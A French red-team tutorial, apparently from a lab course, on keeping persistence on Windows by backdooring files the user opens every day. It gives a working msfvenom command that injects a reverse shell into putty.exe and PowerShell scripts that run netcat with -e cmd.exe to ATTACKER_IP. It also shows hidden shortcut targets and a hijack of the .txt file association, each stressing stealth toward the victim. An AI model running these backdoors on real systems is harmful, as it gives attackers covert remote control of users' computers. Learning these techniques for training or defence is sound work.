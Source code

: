 Une autre méthode pour établir la persistance consiste à falsifier certains fichiers avec lesquels nous savons que l'utilisateur interagit régulièrement. En effectuant quelques modifications sur ces fichiers, nous pouvons installer des portes dérobées qui seront exécutées chaque fois que l'utilisateur y accédera. Puisque nous ne voulons pas créer d'alertes qui pourraient faire exploser notre couverture, les fichiers que nous modifions doivent continuer à fonctionner pour l'utilisateur comme prévu.

Bien qu'il existe de nombreuses possibilités d'implanter des portes dérobées, nous examinerons les plus couramment utilisées.

Fichiers exécutables

Si vous trouvez un exécutable sur le bureau, il y a de fortes chances que l'utilisateur l'utilise fréquemment. Supposons que nous trouvions un raccourci vers PuTTY qui traîne. Si nous vérifions les propriétés du raccourci, nous pourrions voir qu'il pointe (généralement) vers `C:\Program Files\PuTTY\putty.exe`. À partir de ce moment-là, nous pourrions télécharger l'exécutable sur la machine de notre attaquant et le modifier pour exécuter la charge utile de notre choix.

Vous pouvez facilement insérer une charge utile de votre choix dans n'importe quel fichier .exe avec `msfvenom`. Le binaire fonctionnera toujours comme d'habitude mais exécutera une charge utile supplémentaire en silence en ajoutant un thread supplémentaire dans votre binaire. Pour créer un putty.exe backdooré, nous pouvons utiliser la commande suivante :

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Le puttyX.exe résultant exécutera une charge utile reverse_tcp Meterpreter sans que l'utilisateur ne s'en aperçoive. Bien que cette méthode soit suffisamment efficace pour établir la persistance, examinons d'autres techniques plus sournoises.

Fichiers de raccourci

Si nous ne voulons pas modifier l'exécutable, nous pouvons toujours modifier le fichier de raccourci lui-même. Au lieu de pointer directement vers l'exécutable attendu, nous pouvons le modifier pour pointer vers un script qui exécutera une porte dérobée puis exécutera normalement le programme habituel.

Pour cette tâche, vérifions le raccourci vers calc sur le bureau de l'administrateur. Si nous faisons un clic droit dessus et allons dans les propriétés, nous verrons où il pointe :

![7a7349b9dcc5af3180044ee1d7605967](https://github.com/dsgsec/Red-Team/assets/82456829/9f4d5cdc-a575-4fcb-8409-16fd5df9aee5)

Avant de détourner la cible du raccourci, créons un simple script Powershell dans `C:\Windows\System32`ou dans tout autre emplacement sournois. Le script exécutera un shell inversé, puis exécutera calc.exe à partir de l'emplacement d'origine dans les propriétés du raccourci :

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe

```

Enfin, nous modifierons le raccourci pour qu'il pointe vers notre script. Notez que l'icône du raccourci peut être automatiquement ajustée ce faisant. Assurez-vous de pointer l'icône vers l'exécutable d'origine afin qu'aucune modification visible n'apparaisse pour l'utilisateur. Nous souhaitons également exécuter notre script sur une fenêtre cachée, pour laquelle nous ajouterons l' `-windowstyle hidden`option à Powershell. La cible finale du raccourci serait :

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![fe703ddea6135e0c867afcc6f61a8cd2](https://github.com/dsgsec/Red-Team/assets/82456829/6819be8d-80e9-4c42-a7d6-5bea135c79d2)

Démarrons un écouteur nc pour recevoir notre reverse shell sur la machine de notre attaquant :

Boîte d'attaque

```
user@AttackBox$ nc -lvp 4445
```

Si vous double-cliquez sur le raccourci, vous devriez obtenir une connexion avec la machine de votre attaquant. Pendant ce temps, l'utilisateur recevra une calculatrice exactement comme il l'attend. Vous remarquerez probablement une invite de commande clignoter et disparaître immédiatement sur votre écran. J'espère que cela ne dérangera peut-être pas trop un utilisateur régulier. 


Détournement d'associations de fichiers

En plus de persister via des exécutables ou des raccourcis, nous pouvons détourner n'importe quelle association de fichiers pour forcer le système d'exploitation à exécuter un shell chaque fois que l'utilisateur ouvre un type de fichier spécifique.

Les associations de fichiers par défaut du système d'exploitation sont conservées dans le registre, où une clé est stockée pour chaque type de fichier sous `HKLM\Software\Classes\`. Disons que nous voulons vérifier quel programme est utilisé pour ouvrir les fichiers .txt ; nous pouvons simplement vérifier la `.txt`sous-clé et trouver quel ID de programmation (ProgID)  lui est associé. Un ProgID est simplement un identifiant pour un programme installé sur le système. Pour les fichiers .txt, nous aurons le ProgID suivant :

![3ae1b8356b38a349090e836026d6d480](https://github.com/dsgsec/Red-Team/assets/82456829/973c96e2-9c13-4ecf-88f0-a2593140b417)

Nous pouvons ensuite rechercher une sous-clé pour le ProgID correspondant (également sous `HKLM\Software\Classes\`), dans ce cas,  `txtfile`, où nous trouverons une référence au programme en charge de gérer les fichiers .txt. La plupart des entrées ProgID auront une sous-clé sous `shell\open\command`laquelle est spécifiée la commande par défaut à exécuter pour les fichiers avec cette extension :

![c3565cf93de4990f41f41b25aed80571](https://github.com/dsgsec/Red-Team/assets/82456829/9ac8861a-07cd-48b0-8e49-29731da4e4bd)

Dans ce cas, lorsque vous essayez d'ouvrir un fichier .txt, le système exécutera `%SystemRoot%\system32\NOTEPAD.EXE %1`, où `%1`représente le nom du fichier ouvert. Si nous voulons détourner cette extension, nous pourrions remplacer la commande par un script qui exécute une porte dérobée puis ouvre le fichier comme d'habitude. Tout d'abord, créons un script ps1 avec le contenu suivant et enregistrons-le sous`C:\Windows\backdoor2.ps1` :

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Remarquez comment dans Powershell, nous devons passer `$args[0]`au bloc-notes, car il contiendra le nom du fichier à ouvrir, tel qu'indiqué via `%1`.

Modifions maintenant la clé de registre pour exécuter notre script de porte dérobée dans une fenêtre cachée :

![f7ed25a701cf20ea85cf333b20708ffe](https://github.com/dsgsec/Red-Team/assets/82456829/9c485d7c-65af-44bc-bf08-77f3416a5c77)

Enfin, créez un écouteur pour votre shell inversé et essayez d'ouvrir n'importe quel fichier .txt sur la machine victime (créez-en un si nécessaire). Vous devriez recevoir un shell inversé avec les privilèges de l'utilisateur ouvrant le fichier.

